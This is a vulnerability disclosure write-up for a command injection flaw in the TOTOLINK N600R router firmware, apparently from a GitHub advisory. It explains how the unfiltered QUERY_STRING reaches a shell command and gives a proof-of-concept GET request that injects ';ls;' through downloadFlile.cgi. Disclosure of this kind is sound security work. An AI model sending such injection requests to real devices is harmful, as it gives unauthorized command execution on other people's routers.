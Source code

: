 # TOTOLINK N600R V5.3c.7159_B20190425 Has an command injection vulnerability

## Overview

- **Type**: command injection vulnerability
- **Vendor**: TOTOLINK (https://www.totolink.net/)
- **Products**: WiFi Router, such as N600R V5.3c.7159_B20190425
- **Firmware download address:**http://www.totolink.cn/data/upload/20210717/bc2b1d2206c4a7b1753c3d870cb15bff.zip



## Description

### 1.Product Information:

TOTOLINK N600R V5.3c.7159_B20190425 router, the latest version of simulation overview：

![Figure 1 Update date of the latest version of the firmware](image/1.png)



### 2. Vulnerability details

TOTOLINK N600R V5.3c.7159_B20190425 was discovered to contain a command injection vulnerability in the "Main" function. This vulnerability allows attackers to execute arbitrary commands via the QUERY_STRING parameter.

![Figure 2 Local of the vulnerability](image/2.png)

We can see that the os will get ` QUERY_STRING`  without filter splice to the string `;ps;` and execute it. So, If  we can control the `QUERY_STRING`, it can be command injection.

## 3. Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
GET /cgi-bin/downloadFlile.cgi?;ls; HTTP/1.1 
Host: 192.168.0.1 
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8 Accept-Language: en-US,en;q=0.5 
Accept-Encoding: gzip, deflate 
Connection: keep-alive 
Upgrade-Insecure-Requests: 1 
Cache-Control: max-age=0
```

![Figure 3 POC attack effect](image/3.png)
